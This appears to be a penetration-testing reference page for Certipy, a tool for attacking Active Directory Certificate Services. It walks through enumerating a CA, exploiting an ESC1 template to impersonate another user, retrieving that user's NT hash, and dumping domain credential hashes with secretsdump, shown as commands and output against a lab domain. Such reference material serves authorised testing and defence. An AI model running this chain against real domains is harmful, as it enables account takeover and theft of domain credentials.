 ```yaml
---
title : "Certipy"
# pre : ' '
description : "Active Directory Certificate Services enumeration and abuse."
date : 2022-10-11T10:36:25+02:00
# hidden : true
# draft : true
weight : 290
tags : ['Other', 'Active Directory', 'ADCS']
---
```


---

Active Directory Certificate Services enumeration and abuse.

## Installation

```plain
git clone https://github.com/ly4k/Certipy
sudo python3 setup.py install
```

## Usage

```plain
certipy [-v] [-h] {account,auth,ca,cert,find,forge,ptt,relay,req,shadow,template} ...
```

## Flags

```plain
Certipy v4.8.2 - by Oliver Lyak (ly4k)

positional arguments:
  {account,auth,ca,cert,find,forge,ptt,relay,req,shadow,template}
                        Action
    account             Manage user and machine accounts
    auth                Authenticate using certificates
    ca                  Manage CA and certificates
    cert                Manage certificates and private keys
    find                Enumerate AD CS
    forge               Create Golden Certificates
    ptt                 Inject TGT for SSPI authentication
    relay               NTLM Relay to AD CS HTTP Endpoints
    req                 Request certificates
    shadow              Abuse Shadow Credentials for account takeover
    template            Manage certificate templates

options:
  -v, --version         Show Certipy's version number and exit
  -h, --help            Show this help message and exit
```

## Examples

For more examples please check the [Github Repo](https://github.com/ly4k/Certipy).

### Finding CA

```plain
$ certipy find -u crypt0rr@offsec.nl -p Welkom1234 -dc-ip 10.10.10.10
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 9 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 8 enabled certificate templates
[*] Trying to get CA configuration for 'CA01-OFFSEC' via CSRA
[*] Got CA configuration for 'CA01-OFFSEC'
[*] Saved BloodHound data to '202210114803_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '202210114803_Certipy.txt'
[*] Saved JSON output to '202210114803_Certipy.json'
```

### Exploiting ESC1

To find the exact Certificate Authority (CA) use `
certutil –config – -ping` in CMD (<https://www.cloudservus.com/blog/how-to-find-a-certificate-authority-in-your-active-directory-environment>).

```plain
$ certipy req -u 'crypt0rr.offsec.nl' -p 'Welkom1234' -target 'dc01.offsec.nl' -ca 'CA01-OFFSEC' -template 'ESC1' -upn 'john-da@offsec.nl'
Certipy v4.0.0 - by Oliver Lyak (Ly4k)
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 707
[*] Got certificate with UP 'john-da@offsec.nl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'john-da.pfx'
```

```plain
$ certipy auth -pfx 'john-da.pfx' -dc-ip '10.10.10.11' -username 'john-da' -domain 'offsec.nl'
Certipy v4.0.0 - by Oliver Lyak (ly4k)
[*] Using principal: john-da@offsec.nl
[*] Trying to get TGT.
[*] Got TGT
[*] Saved credential cache to john-da.ccache'
[*] Trying to retrieve NT hash for 'john-da'
[*] Got hash for 'john-da@offsec.nl': aad3b435b51404eeaad3b435b51404ee:caec1e1d755119a15bfb6cd3d5994305
```

```plain
$ secretsdump.py -just-dc -hashes 'aad3b435b51404eeaad3b435b51404ee:caec1e1d755119a15bfb6cd3d5994305' 'offsec.nl/john-da@dc01.offsec.nl'
Impacketv0.10.1.dev1+20220504.120002.d5097759 - Copyright 2022 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\id:rid: lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5f859684db2422704e9e4c2cd7e27b07:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[...]
```

## URL List

- [Github.com - Certipy](https://github.com/ly4k/Certipy)
